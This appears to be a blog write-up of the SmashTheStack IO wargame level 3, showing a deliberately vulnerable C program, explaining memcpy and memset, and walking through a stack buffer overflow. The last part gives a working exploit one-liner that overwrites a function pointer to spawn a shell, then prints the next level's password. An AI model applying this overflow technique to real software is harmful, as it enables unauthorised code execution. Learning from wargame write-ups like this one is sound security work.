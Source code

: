 ```yaml
---
layout: post
title: "SmashTheStack IO Level 3"
date: 2014-07-07 21:37:07 +0300
comments: true
categories: [smashthestack, wargames, exploit]
keywords: smash the stack, wargames
description: SmashTheStack IO Level 3
---
```


This is the source code for level03.c:
<!-- more -->

``` c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

#### Function overview


**memcpy**

_void *memcpy(void *dest, const void *src, size_t n);_

Copies  *n* bytes from memory area *src* to memory area *dest*. The memory areas must not overlap.

The function does not check for any terminating null character in *src*.

Returns a pointer to *dest*.



**memset**

_void *memset(void *buf, int value, size_t count);_

*buf* = Pointer to the block of memory to fill.

*value* = Value to be set. The value is passed as an int, but the function fills the block of memory using the unsigned char conversion of this value.

*count* = Number of bytes to be set to the value.

Sets the first *count* bytes of the block of memory pointed by *buf* to the specified *value*

Returns a pointer to the memory area *buf*

The most common use of *memset()* is to initialize a region of memory to some known value.


#### Program description

Running the program we see this:

``` plain
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

So we know the bad function address is at 0x80484a4 and the good function address is at 0x8048474. A function pointer is set to point to the address of the bad function. The program checks for an argument that is at least 4 in length. Then memset sets all except the last 4 bytes of the buffer to 0. There is a buffer overflow in how the program copies the argument to the buffer, without checking for boundaries. This will be key in exploiting the binary.

I proceeded through feeding a string to the program that I created with <code>pattern_create.rb</code>. Then I ran the program with GDB:

``` plain
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

So EIP points to some junk that I provided with the string. Let's check the offset:

``` plain
./pattern_offset.rb 0x63413563
[*] Exact match at offset 76
```

Excellent! Since we already have the address we need for the good function that will spawn us a shell, the next step is simple:

``` plain
level3@io:/levels$ ./level03 $(python -c 'print "A" * 76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ whoami
level4
sh-4.2$ cat /home/level4/.pass
9C4Jxjc3O3IjB7nXej
```

We hijacked the execution flow and made EIP point to the address of the function we needed.

> The surest protection against temptation is cowardice. 

> -- Mark Twain

